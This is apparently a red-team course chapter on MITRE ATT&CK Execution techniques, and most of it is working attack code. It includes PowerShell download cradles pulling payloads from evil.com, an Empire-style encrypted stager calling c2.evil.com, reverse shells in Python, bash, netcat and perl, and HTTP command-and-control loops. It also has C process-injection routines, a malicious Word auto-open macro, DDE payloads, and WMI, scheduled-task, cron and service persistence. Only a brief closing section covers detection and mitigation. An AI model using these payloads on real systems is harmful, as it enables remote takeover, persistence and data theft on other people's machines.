

mentation (T1047)
- User Execution (T1204)
- Exploitation for Client Execution (T1203)
- Native API (T1106)
- System Services (T1569)

---

## 🧠 Strategic Framework



---

## 1. Command and Scripting Interpreters (T1059)

### 1.1 PowerShell (T1059.001)

PowerShell is the most powerful execution method on Windows systems.

#### Basic PowerShell Execution
```powershell
# Direct command execution
powershell.exe -Command "Get-Process"

# Bypass execution policy
powershell.exe -ExecutionPolicy Bypass -File script.ps1

# Hidden window
powershell.exe -WindowStyle Hidden -Command "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')"

# Encoded command (base64)
$command = "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encoded = [Convert]::ToBase64String($bytes)

powershell.exe -EncodedCommand $encoded
```

#### PowerShell Download Cradles
```powershell
# WebClient
IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')

# Invoke-WebRequest
IEX (IWR 'http://evil.com/payload.ps1' -UseBasicParsing).Content

# Invoke-RestMethod
IEX (IRM 'http://evil.com/payload.ps1')

# Start-BitsTransfer
Start-BitsTransfer -Source 'http://evil.com/payload.ps1' -Destination $env:TEMP\payload.ps1
IEX (Get-Content $env:TEMP\payload.ps1 -Raw)

# .NET WebClient
$wc = [System.Net.WebClient]::new()
IEX $wc.DownloadString('http://evil.com/payload.ps1')

# COM Objects
$ie = New-Object -ComObject InternetExplorer.Application
$ie.Navigate('http://evil.com/payload.ps1')
while($ie.Busy) {Start-Sleep -Milliseconds 100}
$content = $ie.Document.body.innerHTML
IEX $content
```

#### PowerShell Remoting
```powershell
# Enable PSRemoting
Enable-PSRemoting -Force

# Execute remote command
Invoke-Command -ComputerName TARGET -ScriptBlock {Get-Process}

# Interactive session
Enter-PSSession -ComputerName TARGET

# Execute script on multiple computers
Invoke-Command -ComputerName SERVER01,SERVER02,SERVER03 -FilePath C:\Scripts\script.ps1

# Pass credentials
$cred = Get-Credential
Invoke-Command -ComputerName TARGET -Credential $cred -ScriptBlock {whoami}
```

#### PowerShell Empire / Covenant Agents
```powershell
# Empire agent launcher
$wc=New-Object System.Net.WebClient;
$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;
$K=[System.Text.Encoding]::ASCII.GetBytes('secretkey');
$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Count])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor$S[($S[$I]+$S[$H])%256]}};
$ser='http://c2.evil.com:80';
$t='/admin/get.php';
$wc.Headers.Add("User-Agent","Mozilla/5.0");
$data=$wc.DownloadData($ser+$t);
$iv=$data[0..3];
$data=$data[4..$data.length];
-join[Char[]](& $R $data ($IV+$K))|IEX
```

### 1.2 Python (T1059.006)

```python
# Remote code execution
import urllib.request
exec(urllib.request.urlopen('http://evil.com/payload.py').read())

# Socket-based reverse shell
import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.0.1", 4444))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])

# One-liner reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# HTTP-based command execution
import requests
while True:
    cmd = requests.get('http://c2.evil.com/cmd').text
    if cmd:
        output = subprocess.check_output(cmd, shell=True)
        requests.post('http://c2.evil.com/result', data=output)
```

### 1.3 Bash/Shell (T1059.004)

```bash
# Download and execute
curl http://evil.com/payload.sh | bash
wget -O - http://evil.com/payload.sh | sh

# Reverse shell one-liners
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'

# Netcat reverse shell
nc -e /bin/sh 10.0.0.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f

# Python reverse shell (when bash restricted)
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Perl reverse shell
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 1.4 JavaScript/VBScript (T1059.007)

```javascript
// JScript download and execute
var xhr = new ActiveXObject("Microsoft.XMLHTTP");
xhr.open("GET", "http://evil.com/payload.js", false);
xhr.send();
eval(xhr.responseText);

// Mshta execution
mshta javascript:close(new%20ActiveXObject("WScript.Shell").Run("calc.exe"))

// VBScript download cradle
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", "http://evil.com/payload.vbs", False
objXMLHTTP.send()
Execute(objXMLHTTP.responseText)
```

---

## 2. Windows Management Instrumentation (T1047)

### 2.1 WMI Command Execution

```powershell
# Execute command via WMI
wmic /node:TARGET process call create "cmd.exe /c calc.exe"

# With credentials
wmic /node:TARGET /user:DOMAIN\admin /password:pass process call create "powershell.exe"

# PowerShell WMI execution
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c calc.exe" -ComputerName TARGET

# Create remote process
$cred = Get-Credential
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -enc <BASE64>" -ComputerName TARGET -Credential $cred
```

### 2.2 WMI Event Subscriptions (Persistence + Execution)

```powershell
# Create event filter (trigger)
$FilterArgs = @{
    EventNamespace = 'root/cimv2'
    Name = "SystemBootFilter"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
    QueryLanguage = "WQL"
}
$Filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $FilterArgs

# Create consumer (action)
$ConsumerArgs = @{
    Name = "SystemBootConsumer"
    CommandLineTemplate = "powershell.exe -NoP -W Hidden -Enc <BASE64>"
}
$Consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $ConsumerArgs

# Bind filter to consumer
$FilterToConsumerArgs = @{
    Filter = $Filter
    Consumer = $Consumer
}
Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $FilterToConsumerArgs
```

### 2.3 WMIC Lateral Movement

```powershell
# Execute on remote system
wmic /node:"192.168.1.100" /user:"admin" /password:"pass" process call create "cmd.exe /c powershell -enc <PAYLOAD>"

# Multiple targets
wmic /node:@targets.txt /user:"admin" process call create "powershell.exe -Command IEX(New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')"
```

---

## 3. Scheduled Tasks and Jobs (T1053)

### 3.1 Windows Scheduled Tasks (T1053.005)

```powershell
# Create scheduled task
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')" /sc daily /st 09:00 /ru SYSTEM

# Create task on remote system
schtasks /create /s TARGET /u DOMAIN\admin /p password /tn "Update" /tr "cmd.exe /c calc.exe" /sc onlogon

# PowerShell task creation
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -Command IEX(IWR 'http://evil.com/payload.ps1')"
$trigger = New-ScheduledTaskTrigger -AtStartup
$principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
Register-ScheduledTask -TaskName "WindowsUpdate" -Action $action -Trigger $trigger -Principal $principal

# Execute immediately
schtasks /run /tn "WindowsUpdate"
```

### 3.2 Linux Cron Jobs (T1053.003)

```bash
# Add cron job
(crontab -l 2>/dev/null; echo "*/10 * * * * /tmp/payload.sh") | crontab -

# System-wide cron
echo "*/5 * * * * root /tmp/payload.sh" >> /etc/crontab

# Cron.d directory
echo "*/5 * * * * root /usr/bin/python /tmp/payload.py" > /etc/cron.d/update

# Anacron (runs missed jobs)
echo "1 5 update /usr/bin/python /tmp/payload.py" >> /etc/anacrontab
```

### 3.3 At Command (T1053.002)

```batch
# Windows AT command (legacy)
at 14:00 /every:M,T,W,Th,F cmd.exe /c "powershell.exe -enc <BASE64>"

# Linux at command
echo "/tmp/payload.sh" | at now + 1 minute
echo "/usr/bin/python /tmp/payload.py" | at 14:00
```

---

## 4. Native API Execution (T1106)

### 4.1 Direct Windows API Calls

```c
#include <windows.h>

int main() {
    // CreateProcess via API
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);
    
    CreateProcessA(
        "C:\\Windows\\System32\\cmd.exe",
        " /c calc.exe",
        NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi
    );
    
    // VirtualAllocEx + WriteProcessMemory + CreateRemoteThread
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, target_pid);
    
    LPVOID remote_buffer = VirtualAllocEx(hProcess, NULL, sizeof(shellcode),
                                          MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    WriteProcessMemory(hProcess, remote_buffer, shellcode, sizeof(shellcode), NULL);
    
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
                                        (LPTHREAD_START_ROUTINE)remote_buffer,
                                        NULL, 0, NULL);
    
    WaitForSingleObject(hThread, INFINITE);
    
    CloseHandle(hThread);
    CloseHandle(hProcess);
    
    return 0;
}
```

### 4.2 NtCreateThreadEx (Undocumented API)

```c
typedef NTSTATUS (NTAPI *pfnNtCreateThreadEx)(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
    LPVOID ObjectAttributes,
    HANDLE ProcessHandle,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    BOOL CreateSuspended,
    DWORD dwStackSize,
    DWORD Unknown1,
    DWORD Unknown2,
    LPVOID Unknown3
);

BOOL inject_via_ntcreatethreadex(DWORD pid, LPVOID shellcode, SIZE_T size) {
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");
    pfnNtCreateThreadEx NtCreateThreadEx = (pfnNtCreateThreadEx)GetProcAddress(ntdll, "NtCreateThreadEx");
    
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    
    LPVOID remote_buffer = VirtualAllocEx(hProcess, NULL, size,
                                          MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    WriteProcessMemory(hProcess, remote_buffer, shellcode, size, NULL);
    
    HANDLE hThread = NULL;
    NtCreateThreadEx(&hThread, GENERIC_ALL, NULL, hProcess,
                     (LPTHREAD_START_ROUTINE)remote_buffer, NULL,
                     FALSE, 0, 0, 0, NULL);
    
    WaitForSingleObject(hThread, INFINITE);
    
    CloseHandle(hThread);
    CloseHandle(hProcess);
    
    return TRUE;
}
```

---

## 5. Exploitation for Client Execution (T1203)

### 5.1 Browser Exploitation

```javascript
// Exploit CVE example (simplified)
function exploit() {
    // Heap spray
    var spray = unescape("%u9090%u9090");
    while(spray.length < 0x10000) spray += spray;
    
    var chunks = [];
    for(var i = 0; i < 200; i++) {
        chunks[i] = spray.substring(0, spray.length - 2);
    }
    
    // Trigger vulnerability
    document.getElementById('vulnerable').src = "exploit://trigger";
    
    // Shellcode execution
    var shellcode = "\x90\x90\x90...";
    eval(shellcode);
}
```

### 5.2 Office Macro Execution

```vba
' Malicious Word Macro
Sub AutoOpen()
    ExecutePayload
End Sub

Sub Document_Open()
    ExecutePayload
End Sub

Sub ExecutePayload()
    Dim shell As Object
    Set shell = CreateObject("WScript.Shell")
    
    ' Download and execute payload
    shell.Run "powershell.exe -WindowStyle Hidden -Command ""IEX(New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')""", 0, False
    
    ' Alternative: Drop and execute
    Dim fso As Object
    Set fso = CreateObject("Scripting.FileSystemObject")
    
    Dim file As Object
    Set file = fso.CreateTextFile("C:\Users\Public\update.vbs", True)
    file.WriteLine "CreateObject(""WScript.Shell"").Run ""calc.exe"""
    file.Close
    
    shell.Run "wscript.exe C:\Users\Public\update.vbs", 0, False
End Sub
```

### 5.3 PDF Exploitation

```javascript
// Malicious PDF JavaScript
app.alert({
    cMsg: "This document requires Adobe Reader X or later",
    nIcon: 3,
    cTitle: "Warning"
});

// Launch payload
this.exportDataObject({
    cName: "payload.exe",
    nLaunch: 2
});

// Alternative: embedded file execution
app.launchURL("file:///C:/Windows/System32/cmd.exe /c powershell -enc <BASE64>");
```

---

## 6. System Services (T1569)

### 6.1 Service Execution (T1569.002)

```powershell
# Create service
sc create "WindowsUpdate" binPath= "C:\Windows\Temp\payload.exe" start= auto
sc start "WindowsUpdate"

# Create service on remote system
sc \\TARGET create "Update" binPath= "cmd.exe /c powershell -enc <BASE64>" start= auto
sc \\TARGET start "Update"

# PowerShell service creation
New-Service -Name "WindowsUpdate" -BinaryPathName "C:\Windows\Temp\payload.exe" -StartupType Automatic
Start-Service -Name "WindowsUpdate"
```

### 6.2 PsExec (T1569.002)

```bash
# Sysinternals PsExec
psexec.exe \\TARGET -u DOMAIN\admin -p password cmd.exe

# Execute as SYSTEM
psexec.exe \\TARGET -s cmd.exe

# Interactive shell
psexec.exe \\TARGET -u admin -p pass -i cmd.exe

# Impacket psexec
impacket-psexec DOMAIN/admin:password@192.168.1.100
```

---

## 7. Container Administration Command (T1609)

### 7.1 Docker Execution

```bash
# Execute command in container
docker exec -it container_id /bin/bash

# Run malicious container
docker run -it --rm --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host

# Escape to host
docker run --rm -v /:/mnt alpine chroot /mnt sh

# Deploy malicious container
docker run -d -p 4444:4444 evil/backdoor
```

### 7.2 Kubernetes Execution

```bash
# Execute in pod
kubectl exec -it pod-name -- /bin/bash

# Deploy malicious pod
kubectl run backdoor --image=evil/backdoor --restart=Never

# Privileged pod escape
kubectl run privileged-pod --image=alpine --restart=Never --privileged=true --command -- sh -c "chroot /host && bash"
```

---

## 8. Inter-Process Communication (T1559)

### 8.1 Dynamic Data Exchange (DDE)

```
# Excel DDE formula
=cmd|'/c powershell.exe -w hidden -enc <BASE64>'!'A1'

# Word DDE field
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell.exe -NoP -W Hidden -Enc <BASE64>"}
```

### 8.2 Component Object Model (COM)

```powershell
# Excel COM object
$excel = New-Object -ComObject Excel.Application
$excel.Visible = $false
$workbook = $excel.Workbooks.Open("C:\malicious.xlsx")
$excel.Run("malicious_macro")

# WScript.Shell COM
$shell = New-Object -ComObject WScript.Shell
$shell.Run("cmd.exe /c calc.exe", 0, $false)

# Internet Explorer COM
$ie = New-Object -ComObject InternetExplorer.Application
$ie.Navigate("http://evil.com/payload.hta")
```

---

## 9. Advanced Execution Techniques

### 9.1 Process Doppelgänging

```c
// Abuse NTFS transactions for execution
HANDLE hTransaction = CreateTransaction(NULL, 0, 0, 0, 0, 0, NULL);

HANDLE hFile = CreateFileTransacted("C:\\Windows\\Temp\\legit.exe",
                                    GENERIC_WRITE | GENERIC_READ,
                                    0, NULL, CREATE_ALWAYS,
                                    FILE_ATTRIBUTE_NORMAL, NULL,
                                    hTransaction, NULL, NULL);

// Write malicious PE
WriteFile(hFile, malicious_pe, pe_size, &bytesWritten, NULL);

// Create section
HANDLE hSection;
NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL,
                PAGE_READONLY, SEC_IMAGE, hFile);

// Rollback (file disappears)
RollbackTransaction(hTransaction);

// Create process from section
HANDLE hProcess;
NtCreateProcessEx(&hProcess, PROCESS_ALL_ACCESS, NULL,
                  GetCurrentProcess(), 0, hSection, NULL, NULL, 0);
```

### 9.2 AppInit DLLs

```powershell
# Register malicious DLL (requires admin)
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "AppInit_DLLs" -Value "C:\Windows\Temp\evil.dll"
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "LoadAppInit_DLLs" -Value 1
```

### 9.3 Image File Execution Options Injection

```powershell
# Hijack debugger
New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Force
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Name "Debugger" -Value "cmd.exe"

# Now pressing Shift 5 times launches cmd.exe as SYSTEM
```

---

## 10. Detection & Mitigation

### Detection Strategies

```yaml
# Sigma rule for suspicious PowerShell
title: Suspicious PowerShell Download Cradle
logsource:
  product: windows
  service: powershell
detection:
  selection:
    EventID: 4104
    ScriptBlockText|contains:
      - 'Net.WebClient'
      - 'DownloadString'
      - 'IEX'
      - 'Invoke-Expression'
  condition: selection
level: high
```

### Mitigation Recommendations

1. **Application Control**
   - AppLocker/WDAC policies
   - Restrict PowerShell execution
   - Block unnecessary interpreters

2. **Monitoring**
   - PowerShell logging (ScriptBlock, Transcription)
   - Process creation auditing
   - WMI activity monitoring

3. **Hardening**
   - Constrained Language Mode
   - Disable WMI if not needed
   - Remove unnecessary scripting engines

---

## Summary

Execution is the "trigger" phase where malicious code runs. Key techniques:

- **Scripting interpreters** (PowerShell, Python, Bash)
- **System utilities** (WMI, PsExec, Scheduled Tasks)
- **Native APIs** (CreateProcess, CreateRemoteThread)
- **Exploitation** (Browser, Office macros, PDFs)
- **Services** (Windows services, Docker, Kubernetes)

**Defensive Priority**: Focus on PowerShell, WMI, and scheduled task monitoring.

---

**Next Phase**: [Phase 4: Persistence →](../04-privilege-escalation/README.md)
**Previous Phase**: [← Phase 2: Initial Access](../02-initial-access/README.md)

---

**Last Updated**: January 2025
**Author**: Advanced Threat Research Team